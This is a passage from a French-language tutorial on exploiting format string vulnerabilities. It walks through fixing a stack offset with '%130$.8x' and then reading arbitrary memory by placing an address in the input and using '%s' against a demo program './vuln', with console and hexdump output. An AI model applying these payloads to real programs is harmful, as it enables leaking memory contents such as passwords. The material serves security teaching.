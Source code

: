 La position n'est pas exacte car `argv` a encore changé depuis la dernière fois : ici il est plus court. Qui plus est, la chaîne est décalée d'un octet, ce qui se recale facilement ici en ajoutant un caractère :  

```console
oj@hell:~$ ./vuln AAAAB%130\$.8x
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffcdc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
AAAAB41414141
#end  a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
Program terminated with success
```

Les problèmes de décalage sont très importants à prendre en compte dans ce type d'attaque. Il faut constamment penser à ce que les modifications d'arguments ou de variables d'environnement entraînent comme changements sur la pile.  

Lire à l'adresse que l'on souhaite
----------------------------------

Ok, on peut lire des données en remontant la pile, la bonne affaire ! Au mieux on trouvera le chemin d'un fichier de configuration passé en paramètre, le nom d'un utilisateur ou un mot de passe.  

Mais peut-on accéder à des informations n'importe où dans la mémoire du processus et pas uniquement en remontant la pile ? Bien sûr !  

On a vu que l'on pouvait mettre une valeur sur la pile et lui faire appliquer un format par `printf`. Il suffit donc d'exploiter un formatage qui déréférence la valeur passée et l'utilise comme une adresse.  

Le format `%s` permet ce genre d'opération.  

Ici je place au début du buffer l'adresse de la variable `b` (`0xbffffcd4`) contenue dans le pointeur `y` puis le format `%s` déréférencie cette adresse pour récupérer son contenu :  

```console
oj@hell:~$ ./vuln $'\xd4\xfc\xff\xbf'B%130\$.8s| hexdump -C
00000000  74 65 72 6d 69 6e 61 74  65 64 3d 30 78 38 30 34  |terminated=0x804|
00000010  38 34 37 63 2c 20 73 65  63 72 65 74 3d 30 78 38  |847c, secret=0x8|
00000020  30 34 38 34 39 30 2c 20  26 70 74 72 32 66 3d 30  |048490, &ptr2f=0|
00000030  78 62 66 66 66 66 63 64  63 0a 73 68 65 6c 6c 63  |xbffffcdc.shellc|
00000040  6f 64 65 20 61 64 64 72  3d 28 6e 69 6c 29 0a 23  |ode addr=(nil).#|
00000050  73 74 61 72 74 20 61 3d  31 2c 20 62 3d 32 2c 20  |start a=1, b=2, |
00000060  63 3d 33 20 2d 20 78 3d  30 78 62 66 66 66 66 63  |c=3 - x=0xbffffc|
00000070  64 38 2c 20 79 3d 30 78  62 66 66 66 66 63 64 34  |d8, y=0xbffffcd4|
00000080  2c 20 7a 3d 30 78 62 66  66 66 66 63 64 30 0a d4  |, z=0xbffffcd0..|
00000090  fc ff bf 42 02 0a 23 65  6e 64 20 20 61 3d 31 2c  |...B..#end  a=1,|
000000a0  20 62 3d 32 2c 20 63 3d  33 20 2d 20 78 3d 30 78  | b=2, c=3 - x=0x|
000000b0  62 66 66 66 66 63 64 38  2c 20 79 3d 30 78 62 66  |bffffcd8, y=0xbf|
000000c0  66 66 66 63 64 34 2c 20  7a 3d 30 78 62 66 66 66  |fffcd4, z=0xbfff|
000000d0  66 63 64 30 0a 50 72 6f  67 72 61 6d 20 74 65 72  |fcd0.Program ter|
000000e0  6d 69 6e 61 74 65 64 20  77 69 74 68 20 73 75 63  |minated with suc|
000000f0  63 65 73 73 0a 0a                                 |cess..|
000000f6
```
